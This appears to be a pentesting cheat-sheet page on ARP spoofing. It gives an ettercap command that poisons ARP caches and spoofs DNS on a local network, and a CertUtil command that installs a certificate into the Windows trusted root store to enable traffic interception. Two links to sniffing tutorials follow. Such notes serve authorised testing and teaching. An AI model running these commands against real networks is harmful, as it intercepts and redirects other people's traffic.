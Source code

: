 # 03 - ARP Spoofing

Search Tag(s): #initial-access #exploitation #sniffing-and-spoofing #ettercap

```
$ sudo ettercap -Tqi <interface> -P dns_spoof -M arp // //

C:\> CertUtil.exe -addstore "Root" "C:\path\to\cert.pem"
```

---
## References

- [Hacking Articles: Comprehensive Guide on Sniffing](https://www.hackingarticles.in/comprehensive-guide-on-sniffing/)

- [Joakim Uddholm: Ettercap, Arpspoof and DNSSpoof Examples](https://joakim.uddholm.com/posts/ettercap-arpspoof-and-dnsspoof-examples)